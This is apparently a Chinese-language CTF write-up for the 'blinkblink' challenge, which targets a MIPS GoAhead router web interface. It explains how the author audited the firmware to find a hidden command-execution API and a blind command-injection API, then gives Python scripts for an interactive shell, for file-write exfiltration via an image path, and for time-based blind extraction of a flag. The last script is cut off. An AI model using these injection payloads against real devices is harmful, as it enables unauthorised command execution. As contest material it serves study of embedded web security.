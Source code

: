 ### blinkblink

> MIPS32:linux:goahead

嵌入式Web，路由器登录页面，给了固件，题意应该是前台getshell，故两大思路：

1. 登录框：登录绕过、注入、溢出
2. 功能API：前台getshell、后台getshell+前台绕过

审计goahead本体，登录框处溢出无果，转而审计接口api，可以从Web前端和服务器后端分别寻找。前端是入口，后端是实现，所以还是主要放在实现上，因为可能出现两种前后不对应的情况：

1. 前端有接口，但后端没有发现对应的处理方法：没实现、被弃用
2. 前端无接口，但后端发现了接口以及处理方法：隐藏接口、后门、弃用功能，但只在前端去掉了入口

对于本题：

1. 从`getinfo.js`翻到接口api
2. 从`goahead`本体找到接口实现，其注册函数为：`formDefineCGIjson`

具体分析方法可以参考我媳妇的WP：[blinkblink题解.docx](https://github.com/blingblingxuanxuan/blingblingxuanxuan.github.io/blob/master/attachments/2021/hws2021-winter/blinkblink%E9%A2%98%E8%A7%A3.docx?raw=true)。总之，审到了两个api：

- 命令执行有回显：goform/set_cmd: cmd
- 命令注入无回显：goform/set_1TR2TR_cfg: info

有回显的直接可以翻到flag：

```python
import requests,json
while 1:
    command  = raw_input("> ")
    response = requests.post("http://183.129.189.60:10035/goform/set_cmd",data={'cmd':command})
    print(json.loads(response.content)['cmdinfo'])
```

无回显的可以写文件（开始没权限需要chmod 777）：

```python
import requests
while 1:
    cmd  = "chmod 777 /home/goahead/etc_ro/web/admin/images/wifiOn.gif;"
    cmd += raw_input("> ")+" > /home/goahead/etc_ro/web/admin/images/wifiOn.gif;"
    for i in range(3):
        try:    requests.post("http://183.129.189.60:10035/goform/set_1TR2TR_cfg",data={"info":"11;%s"%cmd})
        except: pass
    response = requests.get("http://183.129.189.60:10035/admin/images/wifiOn.gif")
    print(response.content)
```

无回显的也可以盲注，网络不稳定时，及其不准。但因为开始没有审出来那个有回显的，写文件也不成功，因为没改权限，所以也是没办法的办法，最起码开始把flag路径注出来了：

```python
import requests,time
url = "http://183.129.189.60:10035/goform/set_1TR2TR_cfg"
flag = ''
pos = 1
#cmd = "find /home/ -name 'login.css'"
#cmd = "find /home/ -name 'flag*'"
cmd = "cat /home/goahead/flag.txt"
while 1:
    print("[+]new pos")
    print("[+]%s"%flag)
    for i in range(32,127):
        payload = {
            "info":"11;%s  | cut -c%s | tr %s 9 | xargs sleep;" % (cmd,str(pos),chr(i))
        }
        try:
            t1 = time.time()
            requests.post(url=url,data=payload,timeout=10)
```